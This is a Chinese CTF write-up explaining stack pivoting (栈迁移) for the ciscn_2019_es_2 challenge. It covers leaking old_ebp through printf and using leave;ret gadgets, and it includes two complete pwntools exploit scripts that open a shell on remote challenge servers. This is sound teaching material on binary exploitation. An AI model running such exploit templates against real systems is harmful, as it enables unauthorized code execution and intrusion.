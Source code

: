 省流：栈迁移中，要把我们的 rbp 地址改为我们的 payload 的地址，要把我们的 ret 地址换成我们的 leave-ret gadget


![](https://pic2.zhimg.com/80/v2-22c432841377581403b6b3f5dc1c1d61_720w.webp)

在这道题里，hack函数没用，有system函数，所以我们构造一个'/bin/sh'来执行拿到shell即可，read函数读取了0x30个字符，但s只有40，那么溢出了8个字符，不够我们构造完整的ROP链，但刚好可以覆盖掉ret和ebp，这种时候就要用到栈迁移了。

我们看下调试信息，在第一个输入后打断点，随便输入一段字符，得到的栈空间如图：

![](https://pic4.zhimg.com/80/v2-0d9d742fb6fb1c6617854339b9f21093_720w.webp)

可以看到是从 0 xffffd0d0位置进行输入的输入的位置与 0 xffffd108，也即 old_ebp 的位置差距是0xd108-0xd0d0=0x38，**这里就是我之前有一点疑惑的点了，为什么要计算这个距离呢，因为输入的起始位置和 old_ebp 的相对距离是固定的，在这道题中，只有这一个地方我们可以进行输入，那么我们后续构造出的恶意代码如何确定他位置呢，就是通过先泄露出 old_ebp 的值，再通过相对位置来进行确定。（为什么不直接把输入起始的位置记下来呢，因为开起了栈的随机化，每次的位置不一样，但相对位置是一样的）**

在这道题中，使用了两次printf，printf在遇到'\0'前会一直输出，所以可以通过他来泄露出old_ebp的值，泄露出来后就可以进行我们payload的构造了，我们首先通过ROPgadget来找一下我们想要的leave和ret地址，找到了进行一个记录

![](https://pic2.zhimg.com/80/v2-5de281965587285668fdee5ce3566f89_720w.webp)

接下来就可以写payload啦，我们想写入的payload在栈上过程是这样的

![](https://pic2.zhimg.com/80/v2-7eae51b775bac6a2881abc73fdf5f0bd_720w.webp)

输入payload前，已经获取了old_ebp的值

现在要做的就是再次进行输入，将恶意代码写入我们能定位的从 old_ebp-0x38开始的位置，（这里的 38 一般来说是我们的 **read 一次能够读入的大小**。）我们进行 payload 的构造需要覆盖到 ret_add 这里，将其覆盖为 leave，ret，而 old_ebp 的值要被覆盖到输入开始的地方，也就是通过泄露得到的 old_ebp-0x38，所以我们构造的 payload 如下：

```text
payload2 = b'bbbb'+p32(system_add)+b'cccc'+p32(old_ebp-0x38+0x10) + b'/bin/sh'
payload2 = payload2.ljust(0x28,b'p')
payload2= payload2+p32(old_ebp-0x38)+p32(leave_ret_addr)
```

这样发送了payload后，栈上情况如图：

![](https://pic4.zhimg.com/80/v2-4f9410548bef3ff542494d57e05855ab_720w.webp)

当程序正常执行退出时，就会执行第一次leave,ret，这时ebp就会指向bbbb这里，esp就会指向leave_ret_add，然后进行ret，再一次执行leave,ret，这时esp就会先指向ebp现在指向的bbbb，然后执行pop ebp后，ebp就指向了一个无所谓在哪的地址，esp指向了sys，执行ret，开始值执行我们的恶意代码了，具体流程如下

![](https://pic4.zhimg.com/80/v2-93190b7ac808781cfeb360cea6bf04bb_720w.webp)

		执行了leave中的mov esp，ebp

![](https://pic3.zhimg.com/80/v2-a2d8a939994b3cacb939a8958d430146_720w.webp)

				执行了pop ebp

模版：
```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
native = 0

if native:
    p = process('pwn1')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('node2.anna.nssctf.cn',28212)


# libc = ELF('')

def debug():
    gdb.attach(p)
    pause()


def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))


se = lambda data: p.send(data)
sa = lambda delim, data: p.sendafter(delim, data)
sl = lambda data: p.sendline(data)
sla = lambda delim, data: p.sendlineafter(delim, data)
sea = lambda delim, data: p.sendafter(delim, data)
rc = lambda numb=4096: p.recv(numb)
rl = lambda: p.recvline()
ru = lambda delims: p.recvuntil(delims)

elf = ELF('pwn1')
system = elf.sym['system']
sh = 0x400911
leave_ret = 0x4007f2
pop_rdi = 0x4008d3
ret = 0x4005b9
sla("name:",b'%16$p')
ru("hello,")
rbp_addr = int(p.recv(14).decode(),16) -0x10
success("rbp-->"+hex(rbp_addr))
s_input = rbp_addr - 0x50
payload = b'/bin/sh\x00' + flat([ret,pop_rdi,s_input,system])
payload = payload.ljust(0x50,b'\x00')
payload += p64(s_input) + p64(leave_ret)
sea("keep on !\n",payload)

p.interactive()

```


```text
from pwn import *
context(log_level="debug")
sh= process('./ciscn_2019_es_2')
sh=remote("node4.buuoj.cn",28751)
payload1=b'a'*0x27+b'B'
#这里不能sendline，不然printf就会截断到B
sh.send(payload1)
sh.recvuntil('B')
old_ebp=u32(sh.recv(4))
print(hex(old_ebp))
leave_ret = 0x08048562
system_add = 0x8048400
#这里第四个参数就是计算出的binsh的地址
payload2 = b'bbbb'+p32(system_add)+b'cccc'+p32(old_ebp-0x38+0x10) + b'/bin/sh\x00'
#进行填充，
payload2 =payload2.ljust(0x28,b'p')
payload2= payload2+p32(old_ebp-0x38)+p32(leave_ret)
sh.sendline(payload2)
sh.interactive()
```

